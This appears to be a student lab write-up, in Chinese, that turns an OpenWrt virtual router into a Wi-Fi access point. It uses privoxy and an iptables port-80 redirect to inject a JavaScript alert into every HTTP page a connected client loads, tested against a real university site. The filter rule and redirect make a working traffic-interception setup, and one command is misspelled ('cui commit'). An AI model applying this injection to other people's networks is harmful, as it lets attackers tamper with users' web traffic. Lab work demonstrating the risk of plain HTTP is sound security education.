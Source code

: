 # privoxy使用及JS嵌入

## 实验环境

* Vmware
* openwrt
* privoxy

## 实验过程

首先安装openwrt，我们下载编译好的[固件](https://drive.google.com/drive/folders/1pdJuzpwuhdq6vnN0Ovtb5r-JB7Z5bw38)，在Vmware中安装好，接着配置网络，我们需要修改为lan口ip地址为dhcp获取

```shell
uci set network.lan.proto=dhcp
```

保存网络配置

```
cui commit network
```

重启网络，使得配置生效

```
/etc/init.d/network restart
```

接下来查看br-lan的ip地址，这里br-lan的地址为

![](./img/br_lan_ip.png)

接着我们访问一下后台

![](./img/houtai.png)

接下来我们需要为openwrt添加一块网卡，将老师为我们提供的网卡连接进虚拟机

![](./img/网卡.png)

接下来使用`ip a`查看一下

![](./img/wlandown.png)

可以看到wlan0已经接入，不过目前状态是DOWN，使用`wifi up`让其开始工作，接着我们进入后台，在`网络>无线`中设置好wifi的相关配置，如SSID，加密方式等。

![](./img/wifi.png)

接下来使用另一个终端连接该wifi，

![](./img/wifi1.jpg)

在后台也可以看到相关的连接列表

![](./img/wifi列表.png)

前面的准备工作做好以后，就可以安装privoxy了

```shell
opkg update && opkg install privoxy
```

安装好之后就可以编辑文件了

首先编辑`privoxy`的配置文件，改动的地方如下

![](./img/diff.png)

左边是改动之后的，右边是原始文件。

接下来在`/etc/privoxy/user.filter`中加入

```
FILTER: block-weeds
s|</head>|<script> alert(“hacked by taotao's lickspittle”);</script>$0|
```

在文件`/etc/privoxy/user.action`中加入

```
{+filter{block-weeds}}
.*
```

然后添加iptables规则

```
iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118
```

当数据包目的端口为80端口时，重定向到8118端口。

设置完毕后重启一下`privoxy`

```
/etc/init.d/privoxy restart
```

接下来就可以开始测试，访问一个HTTP网站，我们用http://www.lib.gxu.edu.cn这个未加密的站点测试。在手机上访问站点

![](./img/hacked.jpg)

成功执行JS，手机上无法看到源代码，我们在电脑上查看一下

![](./img/hackedpc.png)

在审查源代码时可以看到嵌入的js：

![](./img/code.png)

